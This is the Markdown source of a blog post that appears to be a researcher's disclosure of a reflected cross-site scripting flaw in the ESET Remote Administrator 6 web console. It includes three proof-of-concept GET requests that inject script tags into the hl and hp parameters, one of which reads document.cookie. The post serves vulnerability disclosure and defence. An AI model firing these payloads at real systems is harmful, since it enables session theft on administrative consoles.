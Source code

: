 ```yaml
---
layout: post
title:  "Cross-Site Scripting (XSS) in ESET Remote Administrator"
date:   2019-01-21 03:43:45 +0700
categories: [cve]
---
```

I found that XSS vulnerabilities during the pentest back in 2016, but never reported it to the vendor. According to exloit-db.com/search or cxsecurity.com/search this has never been reported, so I'm catching up now in 2019 with old stuff.
cvedetails.com websites doesn't mention it https://www.cvedetails.com/vulnerability-list/vendor_id-8861/product_id-16877/Eset-Remote-Administrator.html. It appears, that issue might have been internally patched.
Mitre website also mentioned only one XSS back from 2009, see https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Eset+Remote+Administrator

Unfortunatelly, all evidences except a single txt file went gone during the issue with my MS Windows testing vmware image a year or more ago, where I installed a local version of "All-In-One ERA 6".

Vendor: ESET, LLC, d/b/a ESET North America
Product: ESET Remote Administrator
Version affected: 6

#### Product description:
ESET Remote Administrator allows to oversee the entire network, including workstations, servers and smartphones from a single point. It can be installed on Windows as well as Linux servers and also comes as a Virtual Appliance. It handles
communication with agents, and collects and stores application data in the database.

#### Cross-Site Scripting, Reflected
* CVE: CVE-2019-xxxx
* CWE: CWE-79


A Cross Site Scripting vulnerability exists in ESET Remote Administrator hl, hp parameters. It is possible to inject arbitrary JavaScript into requests which are ultimately executed by the user browser.


## Proof of Concept 1
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US&hp=fs_login_screen.htm"/><script>alert(document.cookie)</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 2
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US"/><script>alert('xss')</script>&hp=fs_login_screen.htm HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 3
{% highlight ruby %}
GET /era/webconsole/getHelp?hl="><script>alert('xss')</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

#### References:
1. OWASP - https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. Vendor website - https://www.eset.com/au/business/remote-management/remote-administrator/
3. Download the latest trial version - https://support.eset.com/kb6114/?locale=en_US&viewlocale=en_US
